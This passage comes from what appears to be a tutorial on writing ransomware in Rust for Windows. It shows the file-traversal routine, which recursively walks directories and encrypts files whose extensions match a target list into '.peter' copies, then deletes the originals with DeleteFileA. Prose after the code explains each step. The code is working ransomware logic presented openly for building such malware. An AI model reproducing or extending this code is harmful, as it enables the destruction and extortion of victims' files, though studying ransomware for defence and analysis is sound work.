 ``` rust

            if VALID_EXTENSION_VEC
                .iter()
                .any(|&x| CString::new(x).unwrap() == CString::new(&extension[..]).unwrap())
            {
                let mut source_file_name = new_dir.clone();
                let mut dest_file_name: Vec<u8> = Vec::new();
                for byte in source_file_name[..].iter() {
                    dest_file_name.push(byte.clone());
                }
                for byte in ".peter".as_bytes().iter() {
                    dest_file_name.push(byte.clone());
                }
                encrypt(
                    CString::new(&source_file_name[..]).unwrap(),
                    CString::new(&dest_file_name[..]).unwrap(),
                );
                DeleteFileA(CString::new(&source_file_name[..]).unwrap().as_ptr());
            }
        } else {
            // directory
            let name = str::from_utf8(&name_buffer).unwrap();
            if !((name_buffer.len() == 1 && name_buffer[0] == 46u8)
                || (name_buffer.len() == 2 && name_buffer[0] == 46u8 && name_buffer[1] == 46u8))
            {
                let curr = dir_name.as_bytes();
                let mut new_dir = [&curr[..curr.len() - 1], &name_buffer[..]].concat();
                new_dir = [&new_dir, "\\*".as_bytes()].concat();
                traverse(CString::new(new_dir).unwrap());
            }
        }

        if FindNextFileA(hFind, &mut file_data) == 0 {
            return;
        }
    }

```


Here, we first extract the name of this file/subdirectory into a Vector, and we check the field *dwFileAttributes* of our **WIN32_FIND_DATAA** struct to check whether it is a file or a subdirectory.


If it is a file, we extract the extension by locating the last occurence of the character **.** or 46 in Ascii. From there, we get the file extension, check if it is in **VALID_EXTENSION_VEC**.


If the file extension is valid, we encrypt the file using the encryption function we implemented earlier and write the output to a file with the same name but an extension of **".peter"**. Then, we delete the original copy and just leave the encrypted files.


If it is not a file, we first check if the directory's name is **"."** or **".."**. This is because **"."** stands for this current directory, and **".."** stands for the parent directory of this directory. If we recursively traverse through these 2, we will run into an infinite recursion and can not terminate, so we must ignore these.
